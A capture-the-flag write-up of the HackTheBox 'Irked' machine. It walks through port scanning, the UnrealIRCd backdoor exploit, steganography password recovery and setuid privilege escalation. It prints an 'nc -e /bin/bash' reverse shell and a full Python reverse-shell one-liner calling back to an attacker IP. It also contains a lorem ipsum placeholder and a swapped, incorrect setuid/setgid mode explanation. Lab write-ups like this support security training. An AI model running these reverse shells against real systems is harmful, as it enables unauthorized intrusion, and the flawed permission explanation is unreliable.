 ```yaml
---
title: "HTB Write-up: Irked"
date: 2018-12-16
category: [HackTheBox]
tags: [HackTheBox, HTB, linux, IRC, Metasploit, msfconsole, steganography, setuid, find]
header:
    teaser: "/assets/images/htb/irked/irked.png"
---
```

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.

![irked_info.png](/assets/images/htb/irked/irked_info.png)

## User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this intial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.117
```

From `masscan`, it was revealed that a variety of ports were listening for connections, as shown in the command output below.

```
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 8067/tcp on 10.10.10.117                                  
Discovered open port 65534/tcp on 10.10.10.117                                 
Discovered open port 80/tcp on 10.10.10.117                                    
Discovered open port 111/tcp on 10.10.10.117                                   
Discovered open port 22/tcp on 10.10.10.117                                    
Discovered open port 50167/tcp on 10.10.10.117                                 
Discovered open port 6697/tcp on 10.10.10.117 
...
```

Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 8067,65534,80,111,22,50167,6697 -sC -sV -oA scans/discovered-tcp 10.10.10.117
```

Note that while this scan is running, it's a good idea to check out what might be happening on well-known ports such as the HTTP port TCP 80. In this case, it appears the only item present on the webserver is the `irked.jpg` image which is shown below.

![irked_jpg.png](/assets/images/htb/irked/irked_jpg.png)

The results of the nmap scan revealed some interesting services listening on some uncommon ports, which suggest a good starting place for further enumeration. Note that in general, it is wise to take a broad approach during the initial enumeration process. That is to say that basic enumeration of each listening service should be completed before moving on to more focused enumeration of any particular service. In this write-up, the basic enumeration techniques are not discussed. A screenshot of the result of the nmap scan is shown below.

![nmapresults](/assets/images/htb/irked/nmapresults.png)

Of particular interest is the UnrealIRCd service running on TCP ports 6697, 8067, and 65534.

Using an IRC client such as `hexchat`, the IRC service listening on port 6697 can be accessed. If neccessary, `hexchat` can be installed using `apt-get install hexchat`. Upon connecting to the service, the server announces the running version of UnrealIRCd as 3.2.8.1. This is shown in the screenshot below.

![irc_version.png](/assets/images/htb/irked/irc_version.png)

Lesser-known and outdated services are often vulnerable to exploitation. The `searchsploit` tool can be used to search for exploits relevant to a given service. Now that the version of UnrealIRCd running on the target server is known, the command shown below can be used to search for vulnerabliities and exploits relevant to UnrealIRCd 3.2.8.1.

```
root@kali:~/workspace/hackthebox/Irked# searchsploit "UnrealIRCd 3.2.8.1"
```

The results of the search reveal that thare are a variety of exploits related to this version of UnrealIRCd, including a backdoor command exeuction Metasploit module.

![searchsploit_results](/assets/images/htb/irked/searchsploit_results.png)

The Metasploit Framework can be accessed via command line with the `msfconsole` command. Within `msfconsole`, the `exploit/unix/irc/unreal_ircd_3281_backdoor` module can be loaded and ran against the target using the options shown below.

![msfconsole_exploit.png](/assets/images/htb/irked/msfconsole_exploit.png)

Running this module with the `run` command results in a shell on the system as the `ircd` user. This session can be upgraded to a more stable shell by first connecting back to the attacking system once again, but this time outisde of `msfconsole`. In a new window on the attacking system, a listener should be set up before issuing the `nc -e /bin/bash 10.10.14.2 4444` command on the target system. From the session created over this connection, the shell can be upgraded, as demonstrated below.

![shell_upgrade.png](/assets/images/htb/irked/shell_upgrade.png)

In the `/home` directory of the target system there are two users; `ircd` and `djmardov`. The flag `user.txt` file is in the `/home/djamardov/Documents` directory, but cannot be read by the current `ircd` user. In this same directory, however, there is a file called `.backup`, the contents of which are shown below.

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

For those unfamiliar with steg, the word "steg" is short for "steganography" and is the practice of concealing a file, message, image, or video within another file, message, image or video. The contents of the `.backup` file in the home directory of `djmardov` suggets that there must be some information hidden in another file, and that `UPupDOWNdownLRlrBAbaSSss` must be the password to access the information.

A useful Linux tool for working with stegonagrphy is `steghide`. If necessary, this tool can be installed using `apt-get install steghide`. The `steghide` command shown below can be run against the `irked.jpg` image found on the webserver.

```
root@kali:~/workspace/hackthebox/Irked# steghide info irked.jpg
```

Upon running this command, the program prompts for a password, for which `UPupDOWNdownLRlrBAbaSSss` should be given, revealing the information shown below.

![steghide_info.png](/assets/images/htb/irked/steghide_info.png)

The embedded `pass.txt` file can be extracted with the following command.

```
root@kali:~/workspace/hackthebox/Irked# steghide extract -sf irked.jpg -p 
```

The `pass.txt` file can now be read and contains the data shown below.

```
Kab6h+m+bbp2J:HG
```

Returning to the target system, the password shown above can be used to switch to the `djmardov` user with the `su` command. The `user.txt` file can now be read.

![user_txt.png](/assets/images/htb/irked/user_txt.png)

## Root
With the password for `djmardov`, the target system can be accessed over SSH as the `djmardov` user. This provides for a cleaner experience as compared to the upgraded shell used up until this point.

To begin searching for misconfigurations that could lead to the elevation of priveleges, a search of the file system using `find` can be performed with the purpose of locating files owned by the `root` user that have the `setuid` bit set.

```
djmardov@irked:~$ find / -user root -perm -u=s 2> /dev/null
```

The `setuid` and `setgid` flags are Unix access rights flags that allow users to run programs with the permissions of the file's owner or group respectively. The `setuid` and `setgid` bits can be set by changing a file's mode with `chmod`. An octal file mode beginning with `2` (i.e. `chmod 4755 file.sh`) will set a file's `setuid` flag, and an octal file mode beginning with `4` (i.e. `chmod 2755 file.sh`) will set a file's `setgid` flag.

 Sometimes, a program owned by the `root` user that has the `setuid` bit set can be used to elevate privleges to `root`, since whenever the program is run it is run with `root` level permissions.  While it is common for certain programs owned by the `root` user to have the `setuid` flag set, it is important to keep an eye out for anything out of the ordinary.

The result of the aformentioned `find` command are shown in the image below.

![find_results.png](/assets/images/htb/irked/find_results.png)

Most of this looks normal, however the `/usr/bin/viewuser` program is not a standard `setuid` Linux binary. 

Running the `viewuser` binary displays some interesting output.

![viewuser_test.png](/assets/images/htb/irked/viewuser_test.png)

First of all, it appears that this is a custom binary that is still being developed. Secondly, it appears that the program attempts to interact with the `/tmp/listusers` file (which as suggested by the output does not exist). 

Knowing that `viewuser` is run with `root` permission and that it interacts with a nonexistent `listusers` file in the `/tmp` directory suggests a disasterous outcome as the `/tmp` directory is world writable.

To test whether the `viewuser` binary will execute code from within the `/tmp/listusers` file, a simple `ping` test can be performed. A `listusers` executable file can be written to the `/tmp` directory.

```
djmardov@irked:~$ echo "ping -c 5 10.10.14.2" > /tmp/listusers && chmod 755 /tmp/listusers
```

Next, the `tcpdump` tool can be run on the attacking system to confirm whether the target system is executing the `ping` command in the `/tmp/listusers` file.

```
root@kali:~/workspace/hackthebox/Irked# tcpdump -nni any icmp
```

The `viewuser` binary should be run again to test the `ping` command. The output on the attacking system from the `tcpdump` command confirms that the `viewuser` binary on the target system is executing shell commands in the `/tmp/listusers` file. At this point, the contents of the `/tmp/listusers` file can be replaced with a reverse shell. The Python reverse shell used for this is shown below.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

After setting up a listener on the attacking system, the `viewuser` binary should be run once again, resulting in a reverse shell as the `root` user of the target system.

![root_txt.png](/assets/images/htb/irked/root_txt.png)

